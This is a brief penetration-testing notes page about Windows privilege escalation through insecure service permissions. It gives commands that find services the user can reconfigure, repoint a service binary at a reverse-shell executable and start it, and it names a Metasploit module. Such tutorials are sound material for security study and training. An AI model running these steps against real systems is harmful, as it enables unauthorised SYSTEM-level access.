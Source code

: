 # Insecure Service Permissions

Services with Insecure service permissions could allow for privilege escalation. If the current user has the ability to write to or replace the service path binary and, the service is started with privileged permissions such as SYSTEM it could be possible to elevate, providing the service is running in.

`Acesschk.exe` can be used to check what permission a particular user has to services. A wildcard is used to check all services.

```bash
.\accesschk.exe /accepteula -uwcqv "<User>" *
```

![](<../../../../.gitbook/assets/image (18) (2).png>)

From the above output _SERVICE\_CHANGE\_CONFIG_ indicates we are able to alter the service configuration and change the binary path.

![](<../../../../.gitbook/assets/image (264).png>)

As from the above value _SERVICE\_START\_NAME_ represents the user in which the service runs under.

The command below can be used to alter the binary to a new, malicious binary.

```bash
sc config daclsvc binpath= "\"C:\PrivEsc\reverse_shell.exe\""
```

Once the binary path has been changed the service can then be started by either using the command below or rebooting the system if permissions allow.

```bash
net start <ServiceName>
```

**Interesting Service permissions**

| Permission              | Description                                          |
| ----------------------- | ---------------------------------------------------- |
| GENERIC\_ALL            | Inherits SERVICE\_CHANGE\_CONFIG                     |
| GENERIC\_WRITE          | Inherits SERVICE\_CHANGE\_CONFIG                     |
| SERVICE\_CHANGE\_CONFIG | Able to alter service binary                         |
| WRITE\_DAC              | Able to alter permissions -> SERVICE\_CHANGE\_CONFIG |
| WRITE\_OWNER            | Able to become owner and change permissions          |

### Metasploit Module

```
use exploit/windows/local/service_permissions
```
